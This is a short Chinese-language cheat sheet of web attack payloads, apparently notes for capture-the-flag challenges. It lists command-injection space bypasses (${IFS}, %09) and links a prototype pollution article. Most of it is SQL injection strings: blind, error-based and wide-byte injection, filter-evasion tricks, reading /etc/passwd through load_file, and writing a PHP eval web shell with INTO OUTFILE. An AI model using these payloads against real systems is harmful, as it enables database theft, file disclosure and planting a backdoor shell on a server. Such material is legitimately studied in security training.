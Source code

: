 # 空格绕过

```
${IFS}
$()
<
$IFS$9
''
%09
%0A
```

# Nodejs


[原型链污染](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x05-code-breaking-2018-thejs)



# SQL Injection
## sqlite语法


## postgreSQL语法

![image.png|500](https://gitee.com/leiye87/typora_picture/raw/master/20231207180852.png)

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231207180952.png)

##### payload
```python

1 oorr case when(substr((selselectect group_concat(flag) from flag) from {} foorr 1 )='{}') then sleep(5) else 1 end -

# 宽字节注入
id=%df' union select 1,0x61646d696e,group_concat(column_name) from information_schema.columns where table_name = char(102,49,52,103)

# 布尔盲注
id=1' and ascii(substr(database(),1,1))>114
#时间盲注
id=1' and if(ascii(substr(database(),1,1))>114,sleep(3),null)
#报错注入
id=1' and extractvalue(1,concat(0x7e,(select database())))
#写🐎
id=1' union select 1,2,"<?php @eval($_GET['string'])?>" into outfile xxx.php
#读取文件
id=1' union select load_file('/etc/passwd')
#绕过空格
id=1'^(ascii(mid((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.TABLES)where(TABLE_SCHEMA=database())),1,1))=1)='1'
#绕过逗号
id=1' union select * from (select 1)a join (select 2)b join (select 3)c
#正则表达式注入(盲注)
id=' or (length(database())) regexp 8 --+  判断数字
2. `=`过滤，使用`like`绕过
3. 空格过滤，使用制表符`tab`或换行符绕过
4. 引号过滤，使用16进制数或char函数绕过
5. addslashes过滤，宽字节`%df`注入
```